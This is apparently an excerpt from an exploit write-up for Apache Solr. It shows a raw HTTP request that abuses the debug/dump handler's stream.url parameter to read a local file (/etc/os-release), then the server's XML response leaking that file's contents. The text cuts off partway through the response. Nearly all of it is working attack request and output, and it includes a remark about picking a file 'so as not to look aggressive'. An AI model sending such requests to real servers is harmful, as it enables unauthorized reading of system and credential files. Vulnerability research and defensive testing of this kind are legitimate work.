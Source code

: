 Or basically, you can also choose this file to read (so as not to look aggressive)

```
POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
Host: vulnerablehost:8983
Content-Length: 33
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

stream.url=file:///etc/os-release
```

```xml
HTTP/1.1 200 OK
Content-Type: application/xml; charset=UTF-8
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<response>
    <lst name="responseHeader">
        <int name="status">0</int>
        <int name="QTime">0</int>
        <str name="handler">org.apache.solr.handler.DumpRequestHandler</str>
        <lst name="params">
            <str name="param">ContentStreams</str>
            <str name="stream.url">file:///etc/os-release</str>
        </lst>
    </lst>
    <lst name="params">
        <str name="stream.url">file:///etc/os-release</str>
        <str name="echoHandler">true</str>
        <str name="param">ContentStreams</str>
        <str name="echoParams">explicit</str>
    </lst>
    <arr name="streams">
        <lst>
            <null name="name" />
            <str name="sourceInfo">url</str>
            <null name="size" />
            <null name="contentType" />
            <str name="stream">NAME="CentOS Linux"
                VERSION="7 (Core)"
                ID="centos"
                ID_LIKE="rhel fedora"
                VERSION_ID="7"
                PRETTY_NAME="CentOS Linux 7 (Core)"
                ANSI_COLOR="0;31"
                CPE_NAME="cpe:/o:centos:centos:7"
                HOME_URL="https://www.centos.org/"
                BUG_REPORT_URL="https://bugs.centos.org/"
                CENTOS_MANTISBT_PROJECT="CentOS-7"
                CENTOS_MANTISBT_PROJECT_VERSION="7"
                REDHAT_SUPPORT_PRODUCT="centos"
                REDHAT_SUPPORT_PRODUCT_VERSION="7"
            </str>
        </lst>
    </arr>
    <lst name="context">
        <str name="webapp">/solr</str>
```